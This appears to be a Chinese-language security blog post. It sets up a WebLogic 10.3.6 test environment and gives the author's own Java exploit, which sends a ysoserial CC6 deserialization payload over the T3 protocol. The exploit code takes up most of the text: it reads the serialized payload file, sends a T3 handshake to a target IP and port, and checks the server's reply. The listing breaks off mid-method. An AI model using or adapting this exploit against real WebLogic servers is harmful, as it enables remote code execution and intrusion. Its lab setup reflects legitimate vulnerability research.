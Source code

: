[![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/650236-20191031175806877-931381151.png)](https://img2018.cnblogs.com/blog/650236/201910/650236-20191031175806877-931381151.png)

 



## QAX-A-Team版环境搭建

按照如下文档搭建好weblogic 并运行docker后

https://github.com/QAX-A-Team/WeblogicEnvironment

直接把weblogic安装包那个jar的modules提到IDEA库下面

然后配置里远程调试

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241125225835517.png)



自己写了个打weblogic 10.3.6的CC6

```java
package org.exploit.Weblogic;

import java.io.*;
import java.net.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.regex.*;
import java.nio.charset.StandardCharsets;

public class WebLogicExploit {

    // Function to generate payload using ysoserial
    public static byte[] generatePayload() throws IOException {
        String filePath = "cc6.ser";

        byte[] payload = new byte[0];
        try {
            // 读取二进制文件
            payload = Files.readAllBytes(Paths.get(filePath));

        } catch (IOException e) {
            e.printStackTrace();
        }
        return payload;
    }

    // Function to send the exploit payload over T3 protocol
    public static void T3Exploit(String ip, int port, byte[] payload) throws IOException {
        Socket socket = new Socket(ip, port);
        OutputStream outputStream = socket.getOutputStream();
        InputStream inputStream = socket.getInputStream();
        
        // Send T3 handshake
        String handshake = "t3 10.3.6\nAS:255\nHL:19\nMS:10000000\n\n";
        outputStream.write(handshake.getBytes(StandardCharsets.UTF_8));
        outputStream.flush();
        
        // Read response from the server
        byte[] response = new byte[1024];
        int len = inputStream.read(response);
        String responseData = new String(response, 0, len, StandardCharsets.UTF_8);

        // Check if it's WebLogic server
        Pattern pattern = Pattern.compile("HELO");
```
